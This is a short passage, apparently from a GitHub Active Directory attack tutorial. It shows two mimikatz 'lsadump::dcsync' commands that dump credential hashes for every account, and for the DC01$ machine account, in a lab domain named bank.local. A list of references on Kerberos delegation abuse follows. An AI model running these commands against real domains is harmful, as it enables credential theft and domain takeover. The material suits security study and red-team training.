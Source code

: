 **3. Using mimikatz to perform dcsync**

- Open mimikatz and run this

```bash
# Commands
lsadump::dcsync /domain:bank.local /all /csv
lsadump::dcsync /domain:bank.local /user:DC01$
```

![](https://github.com/H0j3n/EzpzActiveDirectory/blob/main/src/Pasted%20image%2020210811235404.png)

### References

```bash
1. https://github.com/aniqfakhrul/archives#unconstrained-delegation
2. https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1
3. http://www.harmj0y.net/blog/redteaming/another-word-on-delegation/
4. https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-dc-print-server-and-kerberos-delegation
5. https://www.guidepointsecurity.com/blog/delegating-like-a-boss-abusing-kerberos-delegation-in-active-directory/
```